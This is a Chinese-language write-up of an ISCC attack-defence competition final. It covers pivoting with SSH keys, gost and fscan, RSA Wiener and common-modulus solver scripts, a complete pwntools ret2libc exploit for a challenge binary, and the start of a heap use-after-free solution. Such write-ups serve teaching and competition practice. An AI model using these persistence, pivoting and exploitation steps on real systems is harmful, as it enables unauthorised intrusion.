# 第22届信息安全与对抗技术竞赛“博弈对抗赛”决赛writeup-先知社区

> **来源**: https://xz.aliyun.com/news/19184  
> **文章ID**: 19184

---

## 赛制：

ISCC博弈对抗赛为近真环境的真实对抗，包括基础知识、阵地攻防、高地攻防等模式。

比赛时长12小时，算是比较长时间的一个比赛了。

上午主要是ctf和理论，下午则是ISCC独有的攻防对抗。

对抗题目分为私地和高地

开局我们可以拿到自己队伍的私地址，通过端口扫描去确定web和pwn题目的具体端口号，在getshell之后尝试控制本队靶机服务器，作为跳板从而获取其他队伍的私地址，并尝试进行攻击。

今年也是上下午均有产出，也获得了比较好的成绩。

这里先大概讲一下下午攻防对抗的具体思路吧

## 攻防对抗思路：

首先我们需要打通自己的私地（今年上午就已经把题目发出来了，可以提前做），然后我们就可以获得一个shell，但是这个shell并不是持久化的，很多操作也没办法进行。

这里我们利用ssh认证服务

拿到pwn题目的shell后执行

```
ssh-keygen
```

在靶机中生成ssh公钥私钥

接下来我们查看自己虚拟机上的ssh公钥

将该公钥通过echo命令写入目标机器的~/.ssh/authorized\_keys文件里

然后我们就可以直接ssh连接靶机了，自动通过认证服务

```
ssh iscc@私地址
```

在我们连接上ssh服务之后，需要往靶机上上传两个文件，分别是gost和fscan，gost是我们用于代理转发的工具，搭配proxychains4使用，从而使我们队伍中所有的成员都可以通过代理去攻击其他队伍的私地

gost下载链接：<https://github.com/go-gost/gost>

使用方法：

```
./gost -L=:6666 &
```

proxychains4配置文件接下来我们就可以在本机上通过代理去访问其他队伍的私地址了

信息收集阶段

fscan扫描B段，这里-p指定端口号，设置为pwn端口或web端口进行详细扫描，但是速度有点慢

```
fscan -h 192.168.1.1/16 -nobr -p 10002
```

这里通过获取到的ip地址就是各队伍的靶机地址了。

这里防护的思路挺简单的，因为比赛并没有check机制，所以很多队伍都会把题目服务给kill -9

今年最后一轮基本上都进行kill了，根本无法攻击hh

高地址题目一般在比赛结束前两个小时开放，也是需要我们进行ip扫描，端口扫描。

​

## WriteUp

### ctf题目MISC-合二为一

先用winrar修复一下压缩包

备注中发现字符串

```
iscc@odldj256sha123d!
```

应该是解压密码

但是只能把a文件夹解压缩出来

解压出来后有一个txt文件



低解密指数攻击

需要用到RSA-wiener-attack工具

编写脚本在工具目录下运行才可以




```
#!/usr/bin/python
#coding:utf-8


import gmpy2
from Crypto.PublicKey import RSA
import ContinuedFractions, Arithmetic
from Crypto.Util.number import long_to_bytes


def wiener_hack(e, n):
    frac = ContinuedFractions.rational_to_contfrac(e, n)
    convergents = ContinuedFractions.convergents_from_contfrac(frac)
    for (k, d) in convergents:
        if k != 0 and (e * d - 1) % k == 0:
            phi = (e * d - 1) // k
            s = n - phi + 1
            discr = s * s - 4 * n
            if (discr >= 0):
                t = Arithmetic.is_perfect_square(discr)
                if t != -1 and (s + t) % 2 == 0:
                    print("Hacked!")
                    return d
    return False
def main():
    n= 87584595423416028402344539221561386945836902046431076835575723491775248614364265382315864658300123033599398108213641193348275158442869027705912396627255194082290601109145909389942272230344607751311239946448087054131912460276924645271000011298735281843484640349654984865090896668778664696947746072621072591103
    e= 20026494184026554166340904717431695979646100633569447950507461016816436290300309610220479278799081459577094664054268880674078260731983218894259793861870959303308131222222792731435366441035808302398094228283547789856781789793632681122866261734238417481445697649651873866518380310516022291136579750634965720597
    c= 18187806790454093199226159115349360797971616046882340125187091704425285205588140427557887980656895931748854420889744403626717445438474310492638354073740365784029152133321642149303688361788108304422073461703082298799121525673020627003098610037270898055916158946615701862124100000509691688323015007105771204189
    d = wiener_hack(e, n)
    m = pow(c,d,n)
    print(long_to_bytes(m))
if __name__=="__main__":
    main()
```

这个密码就是b文件夹的解压密码

```
cc@isdsa!f365ksjasf5#
```

提取b文件夹，很明显是一个word文件被改后缀为zip给解压了

这里还缺少了一些必备文件，在a文件夹里，复制过来即可


如图所示的结构，我们将其全部进行压缩然后在改后缀为word就可以了



打开word文件之后发现还是一个密码脚本



提示密文m1等于m2，想到了共模攻击

这里发现e1和e2并不互素，所以我们最后求得的m还需要开a次根

```
import gmpy2


def long_to_bytes(n, size=None):
    return bytes(reversed(n.to_bytes((n.bit_length() + 7) // 8, 'big')))


def iroot(n, k):
    if n < 0 and k % 2 == 0:
        return None, False
    low = 1
    high = n
    while low <= high:
        mid = (low + high) // 2
        power = mid ** k
        if power == n:
            return mid, True
        elif power < n:
            low = mid + 1
        else:
            high = mid - 1
    return high, False


# 假设 e1, e2, c1, c2, n 已定义
e1=341
e2=209
n=10493859331915425345694322242441435022562354242091203743396298946150569094189020174509521774185336569350522366915763551913938606739039337671815278242898079531418179799645147403893633673882850806600303688105848612127139599454746259370747221623673046110072577534138868096327966109641590639545357378380480228211944098173173880810633704767598217529296225541524675021528411559636660139955084086205746206260146397961619491662057792018826104812579629313292394788329397192269609113393782322471652747307705883380926037809611332358708625749815719872355510864089254957552643676724420435913864285966615236555436658185693292920724404985127561355658908511765495652133441063282433448487842388490852464713968694599846986078069159514964305307891380393344373172443339652939955069486687282087848680427663436550089840241767367616645510203849745627293510231558873004631543276279717269281122091671490870241603467923085910387
c1=7470094871543755800644859265927808739051462949064495864835649942184228520660654953596387279808371180630091304601541251894620402668871740659277586005866255927644256073328663809429276378617963201212647918549998074806757399030691835971924831509763877598560995691553970338140027512567364984066365692050785226048398787018177776526957615305096901878504546458359821693937422366145390827472485473865100904398343836950400007587067306341769396483109794177960956719454050279361711303173816501484303912116220699349507140749692517715200064028079364607989983612751505142322644203615179946913630004328763484553090782151937458452832550948452677078257483342122562765982599391396801402757353147613304272482153755984697342165560922661965090766892262614476770485765530323174411409536867405861920638518309846358205000643414260955549784507880548274644893165933026820125041756801369926448792367133817721108060973742521934550
c2=2187483933827264820660841551006509510044105501481413167871074833200690531358992801798461916734799499580933044837669351494597531673200783197667901072035348495394619801323518860880653353090536210879164441982069036952428146817558892593194885043897688909391132414710360328883894545591420523806243663105505624736084498165654112038286423906580786781455288374972093900486413462851422346859488108090704314815862398386805240460342334005181953214920007422899590918356195812310722189673953398898908128608664242683669882453521926400949673670959875493689483304749172468299934795250165064201855900998618123860886838071484448464967493680659857574911634147420283798258734739458424863240961870603415606658855455656286351575853452684987938062280392283763974091564226642643687571268502288995551340497412303865466793988469120853715596350485267957951757994092386926201003608103313351264894181285844500341569758057474405031


gcd_result, s1, s2 = gmpy2.gcdext(e1, e2)
m1 = gmpy2.powmod(c1, s1, n)
m2 = gmpy2.powmod(c2, s2, n)
m = (m1 * m2) % n


print(bytes.fromhex(hex(m)[2:]))


while True:
    root, is_perfect = iroot(m, gcd_result)
    if is_perfect:
        m = root
        print(long_to_bytes(m))
        break
    m += n
```


将字符串逆向输出就是flag了




```
ISCC{ssddasd_f1@g_5s2dw662jh}
```

​

​

### 攻防对抗私地pwn-rand

解题思路：

审计代码发现主程序是存在栈溢出的



那么我们只需要将前面的判断全部绕过即可进行栈溢出去getshell



这里我们只需要在sub\_401216进行五次读入就可以进行下一步了



这里我们需要满足ptr里面的内容是BossDontNeedKey

根据前面代码ptr我们是没有办法进行写入的

但是细看就会发现，ptr是被free掉的，进入了tcachebins堆块管理器，而下面我们是可以开辟一个堆块v2，并且我们可以在堆块里面编写数据

那么我们只需要将ptr所在堆块从堆块管理器里申请出来即可实现v2和ptr指向同一个堆块

调试发现申请0x58字节可以实现绕过了

接下来就进入栈溢出阶段了



程序开启了canary保护，所以我蒙第一次将buf区域填满然后覆盖canary尾字节即可泄露出canary的值

接下来我们剩下一个read，但是我们还没有libc地址没办法构造payload

所以需要打ret2libc进行二次读入



Exp：

```
from pwn import*
from struct import pack
import ctypes
context(log_level='debug',arch='amd64')
p=process('./rand')
#p=remote('192.168.40.105',10002)
elf=ELF('./rand')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.17_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.17_amd64/libc.so.6')
defbug():
gdb.attach(p)
pause()
defs(a):
p.send(a)
defsa(a,b):
p.sendafter(a,b)
defsl(a):
p.sendline(a)
defsla(a,b):
p.sendlineafter(a,b)
defr(a):
p.recv(a)
defpr(a):
print(p.recv(a))
defrl(a):
return p.recvuntil(a)
definter():
p.interactive()
defget_addr64():
return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
defget_addr32():
return u32(p.recvuntil("\xf7")[-4:])
defget_sb():
return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li =lambdax : print('\x1b[01;38;5;214m'+ x +'\x1b[0m')
ll =lambdax : print('\x1b[01;38;5;1m'+ x +'\x1b[0m')

rl('Welcome Home!')
#bug()
for i inrange(5):
rl("Enter the lucky number:")
sl(str(10000))
rl("Enter the key size:")
sl(str(0x58))
#bug()
rl("Enter the key content:")
sl(b'BossDontNeedKey')
rl("What to eat tonight?
")
#bug()
s(b'a'*0x29)
rl(b'a'*0x28)
canary=u64(p.recv(8).ljust(8, b'\x00'))-0x61
li(hex(canary))
#bug()
rdi=0x0000000000401703
payload=b'a'*0x28+p64(canary)*2+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x401130)
s(payload)
libc_base=get_addr64()-libc.sym['puts']
li(hex(libc_base))
system,bin_sh=get_sb()


rl('Welcome Home!')
#bug()
for i inrange(13):
rl("Enter the lucky number:")
sl(str(10000))
rl("Enter the key size:")
sl(str(0x58))
#bug()
rl("Enter the key content:")
sl(b'BossDontNeedKey')
rl("What to eat tonight?
")
#bug()
s(b'a'*0x29)
rl(b'a'*0x28)
canary=u64(p.recv(8).ljust(8, b'\x00'))-0x61
li(hex(canary))
#bug()
rdi=0x0000000000401703
payload=b'a'*0x28+p64(canary)*2+p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)
s(payload)

inter()
```

### 攻防对抗高地pwn1-restaurant

2.31堆题目



程序起点有一个认证环节，对我们的输入进行了xor操作，我们需要绕过

这里写python脚本逆向即可

```
def xor_encrypt_decrypt(ciphertext, key):

    key_bytes = key.encode('utf-8')  # 将密钥转换为字节
    key_length = len(key_bytes)
    result = bytearray(ciphertext)
    
    for i in range(len(ciphertext)):
        result[i] ^= key_bytes[i % key_length]  # 按位 XOR，密钥循环使用
    
    return bytes(result)

def main():
    # 预存储的加密数据
    encrypted_user = bytes([0x06, 0x11, 0x08, 0x1A, 0x1A])  # encrypted_user
    encrypted_pass = bytes([0x50, 0x56, 0x5E, 0x5D, 0x5B])  # encrypted_pass
    key = "admin"  # 密钥

    # 解密用户名
    decrypted_user = xor_encrypt_decrypt(encrypted_user, key)
    try:
        decrypted_user_text = decrypted_user.decode('utf-8')
        print("解密的用户名:", decrypted_user_text)
    except UnicodeDecodeError:
        print("解密的用户名（字节）:", decrypted_user.hex())
        print("用户名无法直接转换为 UTF-8 文本，可能包含非文本数据。")

    # 解密密码
    decrypted_pass = xor_encrypt_decrypt(encrypted_pass, key)
    try:
        decrypted_pass_text = decrypted_pass.decode('utf-8')
        print("解密的密码:", decrypted_pass_text)
    except UnicodeDecodeError:
        print("解密的密码（字节）:", decrypted_pass.hex())
        print("密码无法直接转换为 UTF-8 文本，可能包含非文本数据。")

if __name__ == "__main__":
    main()
```

得到输入凭证：guest/12345

接下来就是一个板子题目了

delete函数存在uaf漏洞

edit函数存在堆溢出

攻击思路：申请一个0x430的堆块0，delete0使其进入unsortedbins

利用show函数泄露libc地址计算libc\_base

